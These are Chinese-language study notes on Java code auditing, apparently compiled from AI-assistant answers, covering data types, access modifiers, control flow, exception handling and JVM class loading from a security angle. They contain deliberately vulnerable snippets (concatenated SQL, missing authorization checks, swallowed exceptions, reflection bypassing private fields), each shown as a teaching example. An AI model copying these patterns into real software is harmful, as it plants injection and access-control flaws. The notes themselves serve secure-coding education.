# Java代码审计框架


# 基础



## 环境准备

Oracle JDK与OpenJDK的区别

- **OpenJDK** 是 Java SE（Standard Edition）的**开源参考实现**，由 Oracle 主导，社区协作开发，遵循 GPLv2 + Classpath Exception 许可。
- **Oracle JDK** 最初是 Oracle 官方商业版 JDK，但从 **Java 11 开始**，Oracle JDK 和 OpenJDK 在**源代码层面几乎完全一致**（官方称“build from the same code base”）。

> ✅ 简单说：**Java 11 及以后版本中，Oracle JDK ≈ OpenJDK + 商业支持 + 额外工具（如 Java Flight Recorder 的完整版）**

**对 Java 代码审计的影响**

- 漏洞复现/分析时

  ：需注意目标系统使用的 JDK 类型和版本。例如：

  - 某些反序列化 gadget chain 在不同 JDK 实现有差异（如 `com.sun` 包是否可用）。
  - Oracle JDK 过去包含一些私有 API（如 `sun.*`），而 OpenJDK 更严格遵循标准。

- **依赖库兼容性**：某些安全工具（如 ysoserial）在不同 JDK 上表现可能不同，建议在审计时明确 JDK 环境。

- **许可证风险**：若你在企业内部部署审计工具链，使用 Oracle JDK 可能涉及合规问题，OpenJDK 更安全。

## 语言基础

### 数据类型

数据类型（整形、浮点、布尔、类、接口、数组、String之间的区别）


很好！作为网络安全工程师学习 Java 代码审计，理解 Java 的**数据类型体系**是识别漏洞（如类型混淆、越界、注入、反序列化风险等）的基础。下面我将从**分类、存储、默认值、安全性影响**等角度，清晰梳理你提到的各类数据类型之间的区别，并结合代码审计场景给出关键提示。

---

#### 一、Java 数据类型总览

Java 数据类型分为两大类：

| 类别                                | 说明                                   | 包含类型                                                     |
| ----------------------------------- | -------------------------------------- | ------------------------------------------------------------ |
| **基本数据类型（Primitive Types）** | 直接存储值，非对象，效率高             | `byte`, `short`, `int`, `long`, `float`, `double`, `boolean`, `char` |
| **引用数据类型（Reference Types）** | 存储对象的引用（地址），在堆中分配内存 | **类（Class）**、**接口（Interface）**、**数组（Array）**、**String**（特殊类） |

> ⚠️ 注意：**String 不是基本类型**，它是 `java.lang.String` 类的实例，属于引用类型。

---

#### 二、逐项对比与安全审计要点

##### 1. **整型（Integral Types）**
- 包括：`byte`（8位）、`short`（16位）、`int`（32位）、`long`（64位）
- **默认值**：`0`
- **用途**：计数、索引、ID、权限标志位等
- 🔒 **审计关注点**：
  - **整数溢出**：如 `int` 最大值 `2147483647`，加 1 变为负数，可能导致逻辑绕过（如权限校验、循环次数控制）。
    ```java
    int count = Integer.MAX_VALUE;
    count++; // 溢出为 -2147483648
    ```
  - **类型转换截断**：`long` 转 `int` 可能丢失高位，引发安全问题（如文件偏移、内存地址计算）。

##### 2. **浮点型（Floating-Point Types）**
- 包括：`float`（32位）、`double`（64位）
- **默认值**：`0.0`
- **特点**：遵循 IEEE 754 标准，存在精度误差
- 🔒 **审计关注点**：
  - **不可用于精确比较**（如金额、权限阈值）：
    ```java
    if (balance == 100.0) { ... } // 危险！应使用 BigDecimal
    ```
  - 在安全逻辑中**避免用浮点做条件判断**（如风控评分、配额检查）。

##### 3. **布尔型（boolean）**
- 只有两个值：`true` / `false`
- **默认值**：`false`
- **用途**：开关、权限标志、状态判断
- 🔒 **审计关注点**：
  - 默认值为 `false`，若未显式初始化，可能造成**权限默认关闭或开启**的逻辑错误。
  - 注意反序列化时布尔字段是否被恶意篡改（如 `isAdmin=false` 被改为 `true`）。

##### 4. **类（Class）**
- 自定义或内置的对象类型（如 `User`, `File`, `HashMap`）
- **默认值**：`null`
- **存储**：对象在堆中，变量存引用
- 🔒 **审计关注点**：
  - **空指针异常（NPE）**：未判空直接调用方法，可能造成服务崩溃（DoS）。
  - **敏感信息泄露**：自定义类的 `toString()` 或 `toString` 重写不当，可能打印密码等字段。
  - **反序列化风险**：类若实现 `Serializable`，需检查 `readObject()` 是否有安全校验。

##### 5. **接口（Interface）**
- 不能实例化，只能被类实现
- 引用可指向其实现类对象
- **默认值**：`null`
- 🔒 **审计关注点**：
  - 接口本身无状态，但**实现类可能有安全隐患**（如 `List` 接口，实际是 `ArrayList` 或 `LinkedList`）。
  - 动态代理（如 Spring AOP）常基于接口，需注意代理对象的行为是否被篡改。

##### 6. **数组（Array）**
- 固定长度，同类型元素集合
- 属于**引用类型**，继承自 `Object`
- **默认值**：`null`（数组变量）；元素默认值取决于类型（如 `int[]` 元素默认为 `0`）
- 🔒 **审计关注点**：
  - **数组越界（ArrayIndexOutOfBoundsException）**：用户输入作为索引未校验，可能导致崩溃或信息泄露。
    ```java
    int index = userInput; // 未校验
    return secretArray[index]; // 可能读越界
    ```
  - **数组克隆浅拷贝**：`clone()` 对引用类型数组只复制引用，可能造成意外共享。

##### 7. **String**
- 是 `final` 类，不可继承
- **不可变性（Immutability）**：一旦创建，内容不可更改
- **存储**：字符串常量池（JDK 7+ 在堆中）
- **默认值**：`null`
- 🔒 **审计关注点**（极其重要！）：
  - **字符串拼接 SQL/命令** → **SQL 注入、命令注入**：
    ```java
    String sql = "SELECT * FROM users WHERE id = " + userInput; // 危险！
    ```
  - **敏感信息残留**：`String` 不可变，无法主动清空，密码等敏感数据建议用 `char[]`。
  - **equals() vs ==**：`==` 比较引用，`equals()` 比较内容。权限校验若误用 `==` 可能绕过：
    ```java
    if (role == "admin") { ... } // 错误！应使用 "admin".equals(role)
    ```

---

#### 三、关键对比表（审计视角）

| 类型   | 是否对象   | 默认值       | 可变性             | 安全风险重点                 |
| ------ | ---------- | ------------ | ------------------ | ---------------------------- |
| 整型   | 否         | 0            | 可变（变量）       | 溢出、截断                   |
| 浮点   | 否         | 0.0          | 可变               | 精度误差、错误比较           |
| 布尔   | 否         | false        | 可变               | 默认值逻辑错误、反序列化篡改 |
| 类     | 是         | null         | 可变（除非 final） | NPE、反序列化、toString 泄露 |
| 接口   | 是（引用） | null         | 依赖实现类         | 实现类漏洞、代理风险         |
| 数组   | 是         | null（变量） | 元素可变           | 越界、浅拷贝、信息泄露       |
| String | 是         | null         | **不可变**         | 注入、敏感数据残留、== 误用  |

---

#### 四、给你的建议（结合代码审计）

1. **看到整型运算** → 想“会不会溢出？”
2. **看到数组/列表索引** → 想“有没有边界检查？”
3. **看到字符串拼接外部输入** → 立刻警惕“注入风险！”
4. **看到反序列化代码** → 检查所有引用类型字段是否可控、是否需校验。
5. **权限/状态判断** → 确认是否用 `equals()`，布尔值是否初始化正确。

下一步你可以问：

- Java 中的自动装箱/拆箱机制及其安全影响？
- String、StringBuilder、StringBuffer 的区别与安全使用？
- 如何通过数据类型识别潜在的反序列化 gadget？

### 访问控制

访问控制（public、protected、default、private之间的区别，如何进行权限控制）


非常好！作为网络安全工程师学习 Java 代码审计，**理解访问控制（Access Control）机制**是识别权限越权、信息泄露、封装绕过等漏洞的关键基础。Java 的四种访问修饰符（`public`、`protected`、`default`（包私有）、`private`）直接决定了类、方法、字段的**可见性边界**，而这些边界一旦被错误设计或绕过，就可能成为安全漏洞的入口。

下面我将从**作用范围、安全含义、典型漏洞场景**三个维度为你系统梳理，并结合代码审计实践给出关键检查点。

---

#### 一、访问修饰符的作用范围对比

| 修饰符                | 同一类 | 同一包 | 子类（不同包） | 任意类（全局） |
| --------------------- | ------ | ------ | -------------- | -------------- |
| `private`             | ✅      | ❌      | ❌              | ❌              |
| `default`（无修饰符） | ✅      | ✅      | ❌              | ❌              |
| `protected`           | ✅      | ✅      | ✅              | ❌              |
| `public`              | ✅      | ✅      | ✅              | ✅              |

> 📌 **说明**：
> - **“同一包”**：指 `.java` 文件在同一个 package 下。
> - **“子类（不同包）”**：`protected` 允许**跨包继承访问**，但不能被包外非子类访问。
> - **`default` 不是关键字**，而是指“不写任何修饰符”的状态，也叫 **package-private**。

---

#### 二、各修饰符的安全含义与审计关注点

##### 1. `private`
- **最严格的封装**：仅类内部可访问。
- **安全意义**：用于隐藏敏感字段（如密码、密钥）、内部状态、辅助方法。
- 🔒 **审计重点**：
  - 敏感字段是否被错误地设为 `public` 或 `default`？
    ```java
    public class User {
        public String password; // ❌ 高危！应为 private
    }
    ```
  - 是否通过反射（Reflection）绕过 `private`？（常见于反序列化、框架调用）
    ```java
    Field f = User.class.getDeclaredField("password");
    f.setAccessible(true); // 绕过 private
    ```
    → 在反序列化或动态调用中需警惕此类操作。

##### 2. `default`（包私有）
- **包内可见**，对外不可见。
- **安全意义**：适用于模块内部协作，但对外隐藏实现细节。
- 🔒 **审计重点**：
  - 是否将本应私有的工具类/配置类暴露给整个包？
  - 攻击者是否可通过**同包注入**（如 Web 应用允许上传 JSP 到 classpath）调用这些方法？
    > 💡 虽然 Java 本身不支持运行时动态加包，但在某些容器（如 Tomcat）中，若攻击者能部署恶意类到相同包路径，可能调用 `default` 成员。

##### 3. `protected`
- **子类可继承访问**，即使子类在不同包。
- **安全意义**：用于设计可扩展的基类，但需谨慎暴露内部逻辑。
- 🔒 **审计重点**：
  - 基类中的 `protected` 方法是否包含敏感操作（如文件读写、权限提升）？
    ```java
    protected void setAdmin(boolean isAdmin) { ... } // 子类可调用 → 可能越权
    ```
  - 是否存在**恶意子类**继承并滥用 `protected` 方法？（尤其在插件架构、反序列化中）

##### 4. `public`
- **完全开放**，任何地方可访问。
- **安全意义**：API 接口、控制器方法、服务入口通常为 `public`。
- 🔒 **审计重点**（最高风险！）：
  - 所有 `public` 方法都应视为**攻击面**，必须做：
    - 输入校验
    - 权限校验（如 `@PreAuthorize`、手动 check）
    - 敏感信息过滤
  - 避免将内部工具方法设为 `public`（“过度暴露”反模式）。

---

#### 三、访问控制在代码审计中的实战检查点

##### ✅ 1. **敏感字段是否过度暴露？**
```java
// 危险示例
public class Config {
    public static String DB_PASSWORD = "secret123"; // ❌ public static 字段
}
```
→ 应改为 `private`，并通过受控方法访问（如 `getDBPassword()` + 权限校验）。

##### ✅ 2. **`public` 方法是否有权限校验？**
```java
public class AdminController {
    public void deleteUser(String userId) { // ❌ 无权限检查
        userService.delete(userId);
    }
}
```
→ 所有 `public` 业务方法必须显式校验当前用户权限。

##### ✅ 3. **`protected` 方法是否可被滥用？**
```java
public abstract class BaseTask {
    protected void executeShell(String cmd) { ... } // 子类可执行任意命令
}
```
→ 若子类可控（如通过反序列化、插件加载），可能造成 RCE。

##### ✅ 4. **反序列化是否依赖 `private` 字段？**
- Java 反序列化会**绕过构造函数和访问控制**，直接设置 `private` 字段。
- 因此，即使字段是 `private`，在 `readObject()` 中仍需校验：
  ```java
  private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
      in.defaultReadObject();
      if (!isValidRole(this.role)) {
          throw new InvalidObjectException("Invalid role");
      }
  }
  ```

##### ✅ 5. **模块化（Java 9+）中的额外控制**
- 使用 `module-info.java` 可进一步限制包导出：
  ```java
  module my.app {
      exports com.example.api;      // 仅导出 API 包
      // com.example.internal 不导出 → 即使 public 也无法访问
  }
  ```
- 审计时注意是否误 `exports` 了内部包。

---

#### 四、总结：安全编码建议

| 场景                   | 推荐修饰符                   | 理由                             |
| ---------------------- | ---------------------------- | -------------------------------- |
| 敏感字段（密码、密钥） | `private`                    | 最小暴露原则                     |
| 内部工具方法           | `private` 或 `default`       | 避免外部调用                     |
| 可继承的模板方法       | `protected`                  | 允许扩展，但需文档说明风险       |
| 对外 API / Controller  | `public`                     | 必须配合权限校验                 |
| 实体类 getter/setter   | `public`（但 setter 需校验） | 框架需要，但避免直接暴露敏感字段 |

下一步你可以问：

- Java 中的 `final` 关键字如何增强安全性？
- 如何通过反射绕过访问控制？在反序列化中如何防御？
- Spring Security 如何与 Java 访问控制协同工作？

继续深入，你的 Java 代码审计能力会越来越扎实！

### 控制语句

控制语句（if/else、while、do while、for、break、continue）


非常好！作为网络安全工程师学习 Java 代码审计，**控制语句**（Control Flow Statements）看似基础，但它们在**逻辑漏洞、权限绕过、资源耗尽、边界条件错误**等安全问题中扮演着关键角色。理解这些语句的执行逻辑和常见误用模式，能帮助你在代码审计中快速识别高危路径。

下面我将从**语法特性、安全风险、审计检查点**三个维度，系统梳理 `if/else`、`while`、`do-while`、`for`、`break`、`continue` 的区别与安全含义，并结合真实漏洞场景说明。

---

#### 一、各控制语句的核心特性与安全关注点

##### 1. **`if / else` —— 条件分支**
- **作用**：根据布尔表达式选择执行路径。
- **安全核心**：**所有安全决策（如权限校验、输入过滤）都依赖 `if` 判断**。
- 🔒 **典型漏洞**：
  - **权限校验缺失或逻辑错误**：
    ```java
    if (user.isAdmin()) {
        deleteUser(userId);
    }
    // ❌ 若未校验 userId 是否属于当前租户，可能越权删除他人数据
    ```
  - **布尔逻辑短路误用**：
    ```java
    if (user != null && user.getRole().equals("admin")) { ... }
    // ✅ 安全（短路避免 NPE）
    
    if (user.getRole().equals("admin") && user != null) { ... }
    // ❌ 危险！user 为 null 时抛出 NPE，可能造成 DoS 或信息泄露
    ```
  - **恒真/恒假条件**（死代码或逻辑绕过）：
    ```java
    if (true) { // 开发遗留，导致权限校验被跳过
        grantAccess();
    }
    ```

> ✅ **审计重点**：  
> - 所有涉及权限、敏感操作的 `if` 分支是否完整？  
> - 条件表达式是否可被用户输入控制？（如 `if (input.equals("debug"))`）  
> - 是否存在“负负得正”逻辑（如 `if (!isNotAdmin)`）导致理解错误？

---

##### 2. **`while` —— 前测循环**
- **特点**：先判断条件，再执行循环体（可能一次都不执行）。
- **安全风险**：
  - **无限循环（DoS）**：条件永远为真，耗尽 CPU/线程。
    ```java
    while (true) {
        process(request); // 若无 break 或异常退出，服务挂起
    }
    ```
  - **条件受控于外部输入**：
    ```java
    int count = Integer.parseInt(userInput);
    while (count-- > 0) {
        allocateMemory(); // 用户控制循环次数 → 内存耗尽
    }
    ```

> ✅ **审计重点**：  
> - 循环终止条件是否由不可信输入控制？  
> - 是否有超时或最大迭代次数保护？

---

##### 3. **`do-while` —— 后测循环**
- **特点**：先执行一次循环体，再判断条件（至少执行一次）。
- **安全风险**：
  - **首次执行无校验**：即使条件不满足，也会执行一次。
    ```java
    do {
        sendEmail(to); // 若 to 为空，仍会尝试发送一次
    } while (hasMoreRecipients());
    ```
  - 在**重试机制**中若未限制次数，可能被滥用：
    ```java
    do {
        connectToServer(); // 攻击者诱导连接恶意服务器
    } while (!connected);
    ```

> ✅ **审计重点**：  
> - 第一次执行是否安全？是否需要前置校验？  
> - 是否可能因状态未更新导致死循环？

---

##### 4. **`for` —— 计数/迭代循环**
- 包括传统 `for` 和增强型 `for-each`。
- **安全风险**：
  - **整数溢出导致循环异常**：
    ```java
    for (int i = 0; i <= Integer.MAX_VALUE; i++) { ... }
    // i++ 溢出变为负数 → 无限循环
    ```
  - **集合在遍历时被并发修改**（`ConcurrentModificationException`，可能被用于 DoS）：
    ```java
    for (User u : userList) {
        if (u.isInactive()) {
            userList.remove(u); // ❌ ConcurrentModificationException
        }
    }
    ```
  - **索引越界**（尤其在传统 `for` 中）：
    ```java
    for (int i = 0; i <= array.length; i++) { // 应为 <，非 <= 
        System.out.println(array[i]); // ArrayIndexOutOfBoundsException
    }
    ```

> ✅ **审计重点**：  
> - 循环变量是否可能溢出？  
> - 遍历集合时是否在修改它？（应使用 `Iterator.remove()`）  
> - 边界条件是否正确？（`<` vs `<=`）

---

##### 5. **`break` 与 `continue` —— 流程跳转**
- `break`：跳出当前循环（或 `switch`）。
- `continue`：跳过本次循环剩余代码，进入下一次迭代。
- **安全风险**：
  - **提前退出导致校验绕过**：
    ```java
    for (String role : userRoles) {
        if (role.equals("guest")) {
            break; // ❌ 误用 break，导致后续 admin 角色未被检查
        }
        if (role.equals("admin")) {
            grantFullAccess();
        }
    }
    ```
  - **嵌套循环中 `break` 仅跳出内层**：
    ```java
    outer:
    for (...) {
        for (...) {
            if (dangerous) break outer; // 需要标签才能跳出外层
        }
    }
    ```
    → 若忘记标签，可能未完全退出危险逻辑。

> ✅ **审计重点**：  
> - `break`/`continue` 是否导致安全校验被跳过？  
> - 在多层循环中，是否真正达到了预期的退出效果？

---

#### 二、控制语句在代码审计中的通用检查清单

| 场景           | 检查点                                                   |
| -------------- | -------------------------------------------------------- |
| **权限控制**   | 所有敏感操作前是否有 `if` 校验？条件是否可被绕过？       |
| **循环安全**   | 循环次数是否受用户输入控制？是否有最大限制？             |
| **边界条件**   | 数组/列表遍历时是否越界？`for` 循环是否用错 `<=`？       |
| **资源管理**   | 循环中是否打开文件/网络连接但未在异常时关闭？            |
| **逻辑完整性** | `if-else if-else` 是否覆盖所有情况？是否存在“遗漏分支”？ |
| **死循环风险** | `while(true)` 是否有可靠退出机制（如超时、中断）？       |

---

#### 三、实战示例：一个典型的越权漏洞

```java
public void viewDocument(String docId, User currentUser) {
    Document doc = documentService.findById(docId);
    
    // 危险：只检查了 doc 存在，但未校验 ownership
    if (doc != null) {
        // 漏洞：任何用户只要知道 docId 就能查看
        render(doc);
    }
}
```

✅ **修复**：
```java
if (doc != null && (doc.getOwnerId().equals(currentUser.getId()) || currentUser.isAdmin())) {
    render(doc);
}
```

→ 这就是 `if` 条件不完整导致的**水平越权**。

---

#### 四、总结建议

- **控制语句是业务逻辑的骨架，也是漏洞的高发区**。
- 在审计时，**重点关注**：
  1. 条件判断是否完整、不可绕过；
  2. 循环是否可控、有边界；
  3. 跳转语句是否破坏了安全流程。
- 养成习惯：**画出控制流图**（CFG），标记所有安全检查点和出口。

---

下一步你可以问：
- Java 中的异常处理（try/catch/finally）如何影响安全？
- 如何通过控制流分析发现逻辑漏洞？
- switch 语句的安全风险（如 fall-through、注入）？

继续深入，你的代码审计眼力会越来越敏锐！

### 异常

异常（try/catch、finally怎么用）


非常好！作为网络安全工程师学习 Java 代码审计，**异常处理机制**（`try/catch/finally`）不仅是程序健壮性的保障，更是**安全边界控制、资源清理、错误信息泄露防护**的关键环节。不当的异常处理可能导致 **敏感信息泄露、权限绕过、资源耗尽、逻辑跳过** 等严重问题。

下面我将从 **语法机制、安全风险、审计要点** 三个维度，结合你的安全背景，系统讲解 `try/catch/finally` 的正确用法与常见陷阱。

---

#### 一、Java 异常处理基础回顾

##### 1. **基本结构**
```java
try {
    // 可能抛出异常的代码
} catch (SpecificException e) {
    // 处理特定异常
} catch (Exception e) {
    // 处理通用异常（不推荐放在前面）
} finally {
    // 无论是否异常，都会执行（用于资源清理）
}
```

> ✅ **关键规则**：
> - `catch` 块按**从具体到通用**顺序排列（否则编译报错）。
> - `finally` **几乎总是执行**（除非 `System.exit()` 或 JVM 崩溃）。
> - Java 7+ 支持 **try-with-resources**（自动关闭资源）。

---

#### 二、异常处理中的典型安全风险（代码审计重点）

##### 🔒 风险 1：**敏感信息泄露（Information Disclosure）**
- **问题**：在错误页面或日志中直接输出异常堆栈，暴露内部路径、SQL 语句、类名等。
  ```java
  try {
      db.query(sql);
  } catch (SQLException e) {
      response.getWriter().println(e); // ❌ 泄露数据库结构、SQL 语句
  }
  ```
- **审计检查点**：
  - 是否在用户可见输出（如 Web 响应、API 返回）中包含 `e.getMessage()` 或 `e.printStackTrace()`？
  - 日志是否记录了完整堆栈？是否包含敏感参数（如密码、token）？

✅ **修复建议**：
```java
catch (SQLException e) {
    logger.error("Database error for user: " + userId, e); // 日志记录（脱敏）
    response.sendError(500, "Internal server error");      // 用户只看到通用错误
}
```

---

##### 🔒 风险 2：**空 `catch` 块（Silent Failure）**
- **问题**：捕获异常但不做任何处理，导致安全校验被静默绕过。
  ```java
  try {
      validateToken(token);
  } catch (Exception e) {
      // ❌ 什么都不做！非法 token 被放过
  }
  grantAccess(); // 危险！
  ```
- **审计检查点**：
  - 是否存在“空 `catch`”或仅打印日志但继续执行后续逻辑？
  - 异常是否代表**安全失败**（如签名验证、权限检查）？若是，必须中断流程。

✅ **修复建议**：
```java
catch (InvalidTokenException e) {
    logger.warn("Invalid token from IP: " + ip);
    throw new AccessDeniedException("Authentication failed"); // 显式拒绝
}
```

---

##### 🔒 风险 3：**`finally` 中的逻辑覆盖返回值**
- **问题**：`finally` 块中的 `return` 或异常会**覆盖 `try/catch` 中的结果**，导致安全判断失效。
  ```java
  public boolean isAdmin() {
      try {
          if (userRole.equals("admin")) {
              return true; // ✅ 正确
          }
      } finally {
          return false; // ❌ 总是返回 false！权限被强制降级
      }
  }
  ```
- **审计检查点**：
  - `finally` 块中是否包含 `return`、`throw`、`break` 等控制流语句？
  - 是否因 `finally` 修改了关键状态（如重置权限标志）？

✅ **最佳实践**：  
**`finally` 只用于资源清理，绝不用于业务逻辑或返回值控制！**

---

##### 🔒 风险 4：**资源未释放（Resource Leak）**
- **问题**：文件、数据库连接、网络 socket 未在异常时关闭，导致 DoS。
  ```java
  FileInputStream fis = new FileInputStream(file);
  try {
      process(fis);
  } catch (IOException e) {
      // ❌ 忘记关闭 fis
  }
  // 若异常发生，fis 未关闭 → 文件句柄泄漏
  ```
- **审计检查点**：
  - 是否所有资源都在 `finally` 中关闭？
  - 是否使用了 **try-with-resources**（推荐）？

✅ **修复建议（Java 7+）**：
```java
try (FileInputStream fis = new FileInputStream(file)) {
    process(fis);
} catch (IOException e) {
    logger.error("File processing failed", e);
}
// fis 自动关闭，即使发生异常
```

---

##### 🔒 风险 5：**异常处理导致逻辑跳过**
- **问题**：捕获异常后未重新抛出或处理，导致后续安全校验被跳过。
  ```java
  try {
      checkRateLimit(); // 可能抛出 RateLimitExceededException
  } catch (RateLimitExceededException e) {
      logger.warn("Rate limit hit");
      // ❌ 未阻止请求！攻击者可暴力破解
  }
  performLogin(); // 仍被执行
  ```
- **审计检查点**：
  - 安全相关的异常（如限流、验证码失败）是否被“吃掉”？
  - 是否在 `catch` 后**显式终止请求**（如抛出新异常、返回错误）？

---

#### 三、安全编码最佳实践（针对代码审计）

| 场景           | 推荐做法                                                     |
| -------------- | ------------------------------------------------------------ |
| **错误响应**   | 用户只看到通用错误（如 "Request failed"），详细日志记录在服务端（脱敏） |
| **异常捕获**   | 捕获**具体异常类型**，避免 `catch (Exception e)` 吞掉所有错误 |
| **资源管理**   | 优先使用 **try-with-resources**，确保自动关闭                |
| **finally 块** | 仅用于 `close()`、`rollback()` 等清理操作，**禁止业务逻辑**  |
| **安全异常**   | 权限、认证、输入校验失败必须**中断流程**，不可静默忽略       |

---

#### 四、实战审计示例

##### ❌ 危险代码：
```java
public String getUserData(String userId) {
    try {
        return db.query("SELECT * FROM users WHERE id = " + userId); // SQL 注入 + 无权限校验
    } catch (Exception e) {
        e.printStackTrace(); // 信息泄露
        return ""; // 空返回可能被前端误用
    }
}
```

##### ✅ 安全修复：
```java
public String getUserData(String userId, User currentUser) {
    if (!currentUser.canAccess(userId)) {
        throw new AccessDeniedException("Access denied");
    }
    
    try (Connection conn = dataSource.getConnection()) {
        PreparedStatement stmt = conn.prepareStatement("SELECT data FROM users WHERE id = ?");
        stmt.setString(1, userId);
        return stmt.executeQuery().getString("data");
    } catch (SQLException e) {
        logger.error("DB error for user: " + currentUser.getId(), e);
        throw new InternalServerException("Service unavailable");
    }
}
```

---

#### 五、总结：异常处理的安全原则

1. **绝不向用户暴露原始异常信息**；
2. **绝不静默忽略安全相关异常**；
3. **资源必须可靠释放**（用 try-with-resources）；
4. **finally 不是万能的**——它不能替代正确的错误处理逻辑；
5. **异常是控制流的一部分**，要像对待 `if` 一样认真对待 `catch`。

---

下一步你可以问：
- Java 中的自定义异常如何设计才安全？
- 如何通过异常处理识别反序列化 gadget？
- Spring Boot 中全局异常处理（`@ControllerAdvice`）的安全配置？

继续深入，你对 Java 应用的安全边界理解会越来越清晰！

## 面向对象



### 类加载机制

非常好！作为网络安全工程师深入 Java 代码审计，理解 **类加载机制** 是识别反序列化漏洞、动态代理滥用、类隔离绕过等高阶安全问题的底层基础。你特别要求引用 **《深入理解Java虚拟机（第3版）》**（周志明著），下面我将严格依据该书（尤其是第7章“虚拟机类加载机制”）的内容，结合安全视角，系统回答你的三个问题：

---


#### 一、类加载机制是什么？（What）

> 📚 **《深入理解Java虚拟机》第3版 · 第7.1节**：  
> “虚拟机把描述类的数据从 Class 文件加载到内存，并对数据进行校验、转换解析和初始化，最终形成可以被虚拟机直接使用的 Java 类型，这就是虚拟机的类加载机制。”

##### 核心要点：
- **目的**：将 `.class` 字节码文件 → JVM 中的 `java.lang.Class` 对象。
- **特点**：
  - **运行时加载**：Java 的类加载是**动态的**，并非在编译时全部确定。
  - **按需加载**：只有在“首次主动使用”某个类时，JVM 才会加载它。
- **安全意义**：
  - 类加载器（ClassLoader）是 Java **沙箱安全模型**的第一道防线。
  - 不同 ClassLoader 加载的同名类被视为**不同类型**，无法互相转换（防止恶意类伪装成核心类）。

> 🔒 **审计提示**：反序列化漏洞常利用自定义 ClassLoader 或 `ObjectInputStream.resolveClass()` 绕过类白名单，加载恶意类。

---

#### 二、类的加载时机是什么？（When）

> 📚 **《深入理解Java虚拟机》第3版 · 第7.2节**：  
> “Java 虚拟机规范严格规定了**有且只有**六种情况必须立即对类进行“初始化”（而初始化前必须完成加载和链接）…… 这六种场景中的行为称为对一个类的**主动引用**。”

##### 必须触发类初始化（从而触发加载）的 **6 种主动引用**：
1. **遇到 `new`、`getstatic`、`putstatic` 或 `invokestatic` 字节码指令时**  
   （即：创建实例、读写静态字段、调用静态方法）
2. **使用反射调用时**（如 `Class.forName("com.example.Danger")`）
3. **初始化一个类时，发现其父类未初始化，则先初始化父类**
4. **虚拟机启动时，用户指定的主类（含 `main()` 方法）**
5. **使用 JDK 1.7+ 的动态语言支持时**（如 `java.lang.invoke.MethodHandle`）
6. **接口定义了 `default` 方法，其实现类初始化时，若接口未初始化，则先初始化接口**

> ⚠️ 注意：以下操作 **不会** 触发初始化（仅加载/链接）：
> - 访问 **静态常量**（`public static final` 编译期常量）→ 因值已存入调用类的常量池
> - 创建数组：`User[] users = new User[10];` → 不会初始化 `User` 类
> - 子类引用父类静态成员 → 只初始化父类，不初始化子类

##### 🔒 安全审计关联：
- **反序列化触发点**：`ObjectInputStream` 在反序列化对象时会调用 `newInstance()`（对应第1条），从而触发目标类的初始化——这是 gadget chain 执行的关键。
- **延迟加载风险**：某些框架（如 Spring）通过反射延迟加载 Bean，若类路径可控，可能加载恶意类。

---

#### 三、类的加载过程是什么？（How）

> 📚 **《深入理解Java虚拟机》第3版 · 第7.3节**：  
> “一个类型的加载过程必须按照**加载（Loading）→ 链接（Linking）→ 初始化（Initialization）** 的顺序进行，其中链接又分为验证（Verification）、准备（Preparation）、解析（Resolution）。”

整个过程如下图所示：

```
加载 (Loading)
    ↓
链接 (Linking)
├── 验证 (Verification)     ← 安全校验核心！
├── 准备 (Preparation)      ← 分配内存，设初值
└── 解析 (Resolution)       ← 符号引用 → 直接引用
    ↓
初始化 (Initialization)     ← 执行 <clinit>() 方法
```

##### 1. **加载（Loading）**
- 通过类的全限定名获取其二进制字节流（可来自 `.class` 文件、网络、数据库、加密存储等）。
- 将字节流代表的静态存储结构转化为方法区的运行时数据结构。
- 在堆中生成一个 `java.lang.Class` 对象，作为方法区数据的访问入口。

> 🔒 **安全风险**：  
> 自定义 ClassLoader 可从任意来源加载字节码（如从 HTTP 下载），若未校验来源，可导致 **远程代码执行（RCE）**。

##### 2. **链接（Linking）**
##### (1) **验证（Verification）** ← **最关键的安全屏障！**
> 📚 书中强调：“验证是连接阶段的第一步，这一阶段的目的是确保 Class 文件的字节流中包含的信息符合当前虚拟机的要求，并且不会危害虚拟机自身的安全。”
- **文件格式验证**：是否以 `0xCAFEBABE` 开头？版本是否兼容？
- **元数据验证**：类是否有父类？是否继承了 `final` 类？
- **字节码验证**：操作数栈是否溢出？类型转换是否合法？
- **符号引用验证**：能否正确解析类、字段、方法的引用？

> 🔒 **审计重点**：  
> 某些环境（如 Android、老版 WebLogic）可能关闭字节码验证（`-Xverify:none`），导致恶意字节码执行。

##### (2) **准备（Preparation）**
- 为**静态变量**分配内存并设置**初始值**（非赋值！）。
  ```java
  public static int value = 123; // 此阶段 value = 0（int 初始值）
  public static String str = "hello"; // 此阶段 str = null
  ```
- `final` 静态常量在此阶段直接赋值（因编译期已知）。

##### (3) **解析（Resolution）**
- 将常量池中的**符号引用**（如 `"java/lang/Object"`）替换为**直接引用**（如内存地址、偏移量）。
- 包括：类/接口解析、字段解析、方法解析、接口方法解析。

##### 3. **初始化（Initialization）**
- 执行类构造器 `<clinit>()` 方法（由编译器自动收集所有 `static {}` 块和静态变量赋值语句生成）。
- JVM 保证 `<clinit>()` 在多线程环境下**线程安全**（同一时间只有一个线程执行）。
- 父类 `<clinit>()` 先于子类执行。

> 🔒 **安全风险**：  
> `<clinit>()` 中的静态代码块在类首次使用时自动执行——**这是反序列化 gadget 的常见执行入口**（如 `TemplatesImpl` 利用）。

---

#### 四、总结：类加载机制与安全审计的关联

| 阶段       | 安全意义         | 审计关注点                                            |
| ---------- | ---------------- | ----------------------------------------------------- |
| **加载**   | 控制字节码来源   | 是否使用不可信 ClassLoader？是否从用户输入构造类名？  |
| **验证**   | 防止恶意字节码   | 是否禁用验证（`-Xverify:none`）？                     |
